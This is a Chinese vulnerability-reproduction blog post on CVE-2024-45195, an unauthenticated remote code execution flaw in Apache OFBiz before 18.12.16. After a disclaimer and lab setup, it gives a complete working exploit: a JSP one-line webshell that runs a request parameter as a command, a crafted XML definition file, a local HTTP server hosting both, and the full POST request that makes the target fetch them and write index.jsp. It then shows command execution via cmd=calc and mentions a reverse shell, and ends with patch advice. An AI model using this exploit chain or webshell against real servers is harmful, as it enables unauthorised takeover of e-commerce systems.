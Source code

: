 #  【漏洞复现】Apache OFBiz远程代码执行漏洞(CVE-2024-45195)   
原创 Z0安全  Z0安全   2024-12-02 00:42  
  
**免责声明**  
  
请勿利用文章内的相关技术从事非法测试。由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，请遵守网络安全法律。本次仅用于测试，请完成测试后24小时删除，请勿用于商业用途。  
  
## 01.简介  
  
CVE-2024-45195是一个影响Apache OFBiz平台的远程代码执行漏洞。Apache   OFBiz是一个著名的电子商务平台，提供了创建基于最新J2EE/XML规范和技术标准的企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。该漏洞允许未经身份验证的远程攻击者通过构造恶意请求，写入恶意文件，从而执行远程代码，获取服务器权限。  
  
该漏洞的成因在于Apache OFBiz在处理用户请求时，未对特定接口进行充分的权限验证和输入验证。攻击者可以通过发送特定格式的数据包到这些接口，触发远程代码执行漏洞。  
## 02.影响版本  
  
Apache OFBiz < 18.12.16  
  
Apache OFBiz 18.12.16 之前版本中，由于Web 应用程序中缺少视图授权检查，未经身份验证的远程威胁者可构造恶意请求写入恶意文件导致远程代码执行，从而获取服务器权限。  
## 03.环境搭建  
  
下载地址：https://archive.apache.org/dist/ofbiz/apache-ofbiz-18.12.15.zip  
  
下载解压后，使用IDEA打开，注意路径不要有中文  
  
因为是gradle构建的项目，idea可以直接识别，使用build直接编译  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3ClhvEA8OWqQAiaz2LYGvvXBxGCsHuTicgsThwmK7UCibaibxKRe2h3ssvAjHhdXfwBKNB2L5n37RultJQLvJpsY5g/640?wx_fmt=png&from=appmsg "")  
  
  
然后找到libs下ofbiz.jar，新增jar Application，添加指定的路径  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3ClhvEA8OWqQAiaz2LYGvvXBxGCsHuTicg6cZJRpeb4LHO86lKicOJezojMjWPT5ibToTnpeVdhicsyAmtBvCxcxC1g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3ClhvEA8OWqQAiaz2LYGvvXBxGCsHuTicgygFibUdRvfjFNEBmJbPiaAODiczjia5G7vianDOdnhiccxwBxxUlGOqbaicXQ/640?wx_fmt=png&from=appmsg "")  
  
  
访问：https://127.0.0.1:8443/webtools/ 证明搭建成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3ClhvEA8OWqQAiaz2LYGvvXBxGCsHuTicgrPgs4zAZVJ5PXhvMopvnic4OkYicqpIsAMNBEPdsofsnthvF7Lyic2K4w/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3ClhvEA8OWqQAiaz2LYGvvXBxGCsHuTicgqkXkzw9cVXjaMWterI0ibvSbpo3CBwU3KXBQZX4JhiclnrBW1PjedAAg/640?wx_fmt=png&from=appmsg "")  
## 04.漏洞复现  
  
需要两个文件rcereport.csv和rceschema.xml  
  
创建rcereport.csv（一句话木马）  
```
<% Runtime.getRuntime().exec(request.getParameter("cmd"));%>
```  
  
创建rceschema.xml  
```
<data-files xsi:noNamespaceSchemaLocation="http://ofbiz.apache.org/dtds/datafiles.xsd"xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">    <data-file        name="rce"        separator-style="fixed-length"        type-code="text"        start-line="0"        encoding-type="UTF-8">        <record            name="rceentry"            limit="many">            <field                name="jsp"                type="String"                length="60"                position="0" />        </record>    </data-file></data-files>
```  
  
ps：xml：data-file必须和数据包里的DEFINITION_NAME值相同、length长度为rcereport.csv的文件长度  
  
本地启用一个web服务  
```
python -m http.server 9999
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3ClhvEA8OWqQAiaz2LYGvvXBxGCsHuTicgUTbV8YrzXsRCRu4hY8NS7ibqFVLf3iaaZAMSMXvMfOwpBor3I4vUPH4Q/640?wx_fmt=png&from=appmsg "")  
  
  
POC:  
```
POST /webtools/control/forgotPassword/viewdatafile HTTP/1.1Host:127.0.0.1:8443User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:130.0) Gecko/20100101 Firefox/130.0Accept: */*Content-Length: 241Content-Type: application/x-www-form-urlencodedDATAFILE_LOCATION=http://127.0.0.1:9999/rcereport.csv&DATAFILE_SAVE=./applications/accounting/webapp/accounting/index.jsp&DATAFILE_IS_URL=true&DEFINITION_LOCATION=http://127.0.0.1:9999/rceschema.xml&DEFINITION_IS_URL=true&DEFINITION_NAME=rce
```  
  
可以看到有请求访问我们的web服务  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3ClhvEA8OWqQAiaz2LYGvvXBxGCsHuTicgX1wibaCZEqyZnLPYohUAzSysW6Yw9C0S0ibX0ibKyRQwJ17xjhfXA105Q/640?wx_fmt=png&from=appmsg "")  
  
  
访问https://127.0.0.1:8443/accounting/index.jsp?cmd=calc  
  
弹出计算器，漏洞复现成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3ClhvEA8OWqQAiaz2LYGvvXBxGCsHuTicggsSWG4bD8nyYYMBkXQ2FgvoeYMH7dzpicFsxmsibaF4oT9L1V47qibqxg/640?wx_fmt=png&from=appmsg "")  
  
  
反弹shell：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3ClhvEA8OWqQAiaz2LYGvvXBxGCsHuTicgTsQSN62PzJ0SRZeXcY113MDQBECQAiaQIrbjODmGSvGhk067m2dHh6g/640?wx_fmt=png&from=appmsg "")  
  
## 05.修复建议  
### 升级版本  
  
目前该漏洞已经修复，受影响用户可升级到Apache OFBiz 18.12.16或更高版本。  
  
下载链接：  
  
https://ofbiz.apache.org/download.html  
  
  
  
  
  
  

